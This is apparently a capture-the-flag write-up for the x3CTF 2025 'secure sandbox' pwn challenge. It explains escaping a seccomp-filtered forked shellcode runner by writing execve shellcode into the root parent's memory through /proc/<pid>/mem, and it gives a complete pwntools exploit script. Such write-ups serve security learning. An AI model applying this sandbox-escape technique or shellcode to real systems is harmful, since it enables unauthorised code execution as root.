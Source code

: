 ```yaml
---
title: secure sandbox
description: I love to make little games. But this time something seems to be different. If you win you might even get a flag...
categories: ["ctf", "x3CTF 2025"]
tags: ["pwn"]
media_subpath: "/assets/posts/2025/x3ctf/secure-sandbox"
---
```


We have a shellcode runner protected by seccomp:

![](01.png)

We can use `seccomp-tools` to see the syscalls we are allowed to perform:

![](02.png)

We can `open`, we can `write`, but we can't `read`. However, we notice an interesting thing: the shellcode runner is
forked. It also prints the PID of the main process, which is not protected by seccomp. We also notice in the Dockerfile
that the application is running as root.

There is a special file in `procfs` called `mem`, for each process, containing a file-like object that can be used to
write and read memory of other processes (requires special permissions, or root access). This is powerful because we can
write any memory region, even read-execute memory like the text segment. The binary does not have PIE, so we can directly
write to the instructions after the `waitpid` call in the parent. Then the parent can execute any shellcode.

The exploit path is as follows:
- call `open` on `/proc/<pid>/mem` with `O_WRONLY`
- call `lseek` to the target memory address with `SEEK_SET`
- call `write` and pass the shellcode buffer
- call `exit` so the parent's `waitpid` finishes
- the main process will execute the modified memory

P.S. I didn't notice we can use `write` so I used `writev`, it does the same thing but it's more convoluted :D

```py
from pwn import *

context.terminal = ["ghostty", "-e"]
context.binary = ELF("./chall")

'''
io = gdb.debug("./chall", """
    c
""")
'''
io = remote("c1afb7ae-f973-4fff-bbfc-aa1dc6b99340.x3c.tf", 31337, ssl=True)

TARGET = 0x401c8f
shell = asm("""
        xor rsi, rsi
        push rsi
        mov rdi, 0x68732f2f6e69622f
        push rdi
        push rsp
        pop rdi
        push SYS_execve
        pop rax
        syscall
""")
shell = repr(list(shell))[1:-1]

io.readuntil(b"with pid: ")
pid = int(io.readline().strip())
print(f"{pid = }")
io.clean()
io.send(asm(f"""
    jmp start
file:
    .asciz "/proc/{pid}/mem"
shellcode:
    .byte {shell}
    .equ shellcode_len, $ - shellcode

start:
    lea rdi, [rip + file]
    mov rsi, O_WRONLY
    mov rdx, 0
    mov rax, SYS_open
    syscall
    mov r12, rax

    mov rdi, r12
    mov rsi, {hex(TARGET)}
    mov rdx, SEEK_SET
    mov rax, SYS_lseek
    syscall

    mov rdi, r12
    push shellcode_len
    lea rbx, [rip + shellcode]
    push rbx
    push rsp
    pop rsi
    mov rdx, 1
    mov rax, SYS_writev
    syscall

    mov rdi, 0
    mov rax, SYS_exit
    syscall
"""))

io.interactive()
```
